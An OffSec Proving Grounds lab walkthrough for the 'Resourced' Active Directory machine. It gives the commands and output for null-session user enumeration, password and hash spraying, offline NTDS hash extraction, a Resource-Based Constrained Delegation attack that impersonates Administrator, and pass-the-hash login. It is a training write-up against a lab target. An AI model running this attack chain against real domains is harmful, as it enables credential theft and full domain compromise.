









# Resourced - OffSec PG Walkthrough
## Lab Info



Resourced shows how null session enumeration can reveal cleartext password in a user description, this will grant initial low-privileged domain access. Further share enumeration will uncover an old offline password audit containing registry hives and an `ntds.dit` backup, allowing offline credential extraction. Using the extracted hashes to spray the domain yields access to a user account with `GenericAll` control over the Domain Controller. Finally, a Resource-Based Constrained Delegation (RBCD) attack is leveraged via Kerberos S4U extensions to impersonate the Domain Admin and fully compromise the target.
## Recon
### Initial Scan

Initial **Nmap** scans reveals standard Active Directory services on the target
```bash
$ nmap -Pn -v -p- --max-retries 1 --min-rate 1000 192.168.247.175

$ nmap -Pn -n -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49674,49675,49695,49710 192.168.247.175
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-08 19:25:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
| Not valid before: 2026-10-07T19:20:08
|_Not valid after:  2027-04-08T19:20:08
|_ssl-date: 2026-10-08T19:27:08+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-08T19:26:48+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-10-08T19:26:51
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

The scan confirms `RESOURCEDC.resourced.local` is a Domain Controller. Add the target host to `/etc/hosts`.
```bash
$ cat hosts.txt |sudo tee -a /etc/hosts
192.168.247.175 RESOURCEDC RESOURCEDC.resourced.local resourced.local
```
## Initial Access - Information Disclosure

We can check for null authentication and pull a list of usernames and their descriptions with **rpcclient**.
```bash
$ rpcclient -U "" -N 192.168.247.175 -c "querydispinfo" | awk -F 'Account: | Desc: ' '{printf "%-15s %s\n", $2, $4}'
```

```bash
Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
D.Durant	Name: (null)	Desc: Linear Algebra and crypto god
G.Goldberg	Name: (null)	Desc: Blockchain expert
Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
J.Johnson	Name: (null)	Desc: Networking specialist
K.Keen	Name: (null)	Desc: Frontend Developer
krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
L.Livingstone	Name: (null)	Desc: SysAdmin
M.Mason	Name: (null)	Desc: Ex IT admin
P.Parker	Name: (null)	Desc: Backend Developer
R.Robinson	Name: (null)	Desc: Database Admin
S.Swanson	Name: (null)	Desc: Military Vet now cybersecurity specialist
V.Ventz	Name: (null)	Desc: New-hired, reminder: HotelCalifornia194!
```

Looks like a password in the descriptions for `V.Ventz`. We can then spray credential against SMB, RDP, and WinRM using **NetExec**.
```bash
$ for i in smb rdp winrm; do nxc $i 192.168.247.175 -u V.Ventz -p 'HotelCalifornia194!';done
```


## Internal Enum - Password Audit Share

We'll need to collect Active Directory data with **Rusthound** to check for paths and edges in **Bloodhound**.
```bash
$ rusthound-ce -d resourced.local -u v.ventz -p 'HotelCalifornia194!' -c All --zip
```



Reviewing the data in Bloodhound won't yield much we can work with yet. No kerberoastable users, and our controlled user has no special permissions or bloodhound edges we can abuse.

### SMB Enumeration

We can get a share listing with **smbclient**, and we'll find a non-standard share `Password Audit`.
```bash
$ smbclient -U 'resourced.local\v.ventz%HotelCalifornia194!' -L '\\192.168.247.175'
```

```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	Password Audit  Disk
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

Using **smbmap**, we can quickly check access and spider the share.
```bash
$ smbmap --no-banner -H 192.168.247.175 -u v.ventz -p 'HotelCalifornia194!' -r 'Password Audit' --depth 3
```



We can see a backup of the local **SYSTEM** and **SECURITY** hives and the Active Directory database file **ntds.dit**. The **ntds.dit** database file is locked on its own, but when combined with the registry hives, we can use **secretsdump.py** and dump password hashes for every single user, computer, and administrator in the entire domain.

Using **smbclient** we can download the files recursively.
```bash
$ smbclient -U 'resourced.local\v.ventz%HotelCalifornia194!' '\\192.168.247.175\Password Audit'
```

```bash
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \Active Directory\ntds.dit of size 25165824 as Active Directory/ntds.dit (3581.5 KiloBytes/sec) (average 3581.5 KiloBytes/sec)
getting file \Active Directory\ntds.jfm of size 16384 as Active Directory/ntds.jfm (95.2 KiloBytes/sec) (average 3498.2 KiloBytes/sec)
getting file \registry\SECURITY of size 65536 as registry/SECURITY (369.9 KiloBytes/sec) (average 3423.0 KiloBytes/sec)
getting file \registry\SYSTEM of size 16777216 as registry/SYSTEM (4122.8 KiloBytes/sec) (average 3671.8 KiloBytes/sec)
```

### NTDS Extraction

With **ntds.dit** and the hives, we can extract the domain hashes locally with **secretsdump.py**.
```bash
$ secretsdump.py local -ntds Active\ Directory/ntds.dit -security registry/SECURITY -system registry/SYSTEM -o resourced

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
```

Going back to our **smbmap** output we'll see a timestamp of `Oct 5 03:49:16 2021`, so these are likely old backups from when they did an audit. Going through each user and hash and manually verifying whether it's valid or not can be tedious. So we can just split the usernames and hashes up and then spray them with **NetExec**.
### Credential Spraying

Separate usernames and NTLM hashes, then spray with **NetExec** using.
```bash
$ cat resourced.ntds |awk -F: '{print $1}' > users.txt
$ cat resourced.ntds |awk -F: '{print $4}' > hashes.txt
```

We'll `--no-bruteforce` to prevent spraying every hash against every user and `--continue-on-success` to keep checking for valid hit.
```bash
$ nxc smb 192.168.247.175 -u users.txt -H hashes.txt --no-bruteforce --continue-on-success
```



User `L.Livingstone` authenticates successfully with hash `19a3a7550ce8c505c2d46b5e39d6f808`.

Reviewing user information and permission in **Bloodhoud**, we'll see user has `GenericAll` over `RESOURCEDC`, this lines us up for a Resource-Based Constrained Delegation (RBCD) attack against the DC.



## Privilege Escalation: RBCD Attack

Resource Based Constrained Delegation flips traditional Kerberos delegation. Instead of asking a Domain Admin to configure delegation, the owner of a target computer gets to decide who can delegate to it by editing its `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

If a low-privileged account has write rights over a target machine object (GenericAll), we can tell that target to trust a fake computer account that we control. From there, we can request a Kerberos service ticket for any user including Administrator against that machine.

### Attack Flow
1. Create a Fake Machine Account
2. Configure the Delegation Trust
3. Request the Impersonation Ticket
4. Pass-the-Ticket & Full Compromise
5. Profit

We use **addcomputer.py** to create `LEGITPC$` so we have a computer principal with known credentials and SID under our complete control.
```bash
$ addcomputer.py resourced.local/l.livingstone -dc-ip 192.168.247.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'LEGITPC$' -computer-pass 'P@ssword123'

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account LEGITPC$ with password P@ssword123.
```

Using **rbcd.py**, we write `LEGITPC$`'s SID into `RESOURCEDC$`'s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This tells the Domain Controller that `LEGITPC$` is allowed to impersonate users to `RESOURCEDC$`.
```bash
$ rbcd.py -action 'write' -dc-ip 192.168.247.175 -delegate-to 'RESOURCEDC$' -delegate-from 'LEGITPC$' 'resourced/l.livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] LEGITPC$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     LEGITPC$     (S-1-5-21-537427935-490066102-1511301751-4101)
```

With **getST.py**, `LEGITPC$` leverages Kerberos S4U extensions (`S4U2self` and `S4U2proxy`). It asks the KDC for a ticket to `CIFS/resourcedc` on behalf of `Administrator`.
```bash
$ getST.py -spn cifs/resourcedc.resourced.local 'resourced/LEGITPC$:P@ssword123' -impersonate Administrator -dc-ip 192.168.247.175

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
```

Now, we'll load the ticket into our session with `export KRB5CCNAME=...` and verify it with **klist**. 
```bash
$ export KRB5CCNAME=Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
```

```bash
$ klist

Ticket cache: FILE:Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
Default principal: Administrator@resourced

Valid starting       Expires              Service principal
10/08/2026 17:54:46  10/09/2026 03:54:46  cifs/resourcedc.resourced.local@RESOURCED.LOCAL
	renew until 10/09/2026 17:54:46
```

Since we're now presenting a valid Kerberos ticket as `Administrator`, **NetExec** authenticates effortlessly over SMB to dump the NTDS database.
```bash
$ nxc smb 192.168.247.175 --use-kcache --ntds
```



Login as administrator and profit:
```bash
$ evil-winrm-py -i 192.168.247.175 -u administrator -H 8e0efd059433841f73d171c69afdda7c
```

```powershell
PS C:\> whoami;hostname;ipconfig;cat c:\users\l.livingstone\desktop\local.txt; cat C:\users\Administrator\Desktop\proof.txt
```

